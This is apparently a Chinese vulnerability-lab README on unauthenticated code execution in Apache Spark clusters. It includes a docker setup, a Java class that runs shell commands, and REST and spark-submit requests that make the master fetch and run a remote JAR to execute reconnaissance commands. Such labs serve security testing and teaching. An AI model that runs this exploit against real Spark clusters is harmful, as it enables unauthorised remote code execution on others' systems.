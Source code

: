 # Apache Spark 未授权访问漏洞

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

参考链接：

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## 漏洞环境

执行如下命令，将以standalone模式启动一个Apache Spark集群，集群里有一个master与一个slave：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到master的管理页面，访问`http://your-ip:8081`即可看到slave的管理页面。

## 漏洞利用

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

1. 利用REST API
2. 利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，如（参考链接1）：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

将其编译成JAR，放在任意一个HTTP或FTP上，如`https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`。

### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![](1.png)

返回的包中有submissionId，然后访问`http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![](2.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest api来提交应用；如果发现不是rest服务器，则会降级到使用submission gateway来提交应用。

查看结果的方式与前面一致。
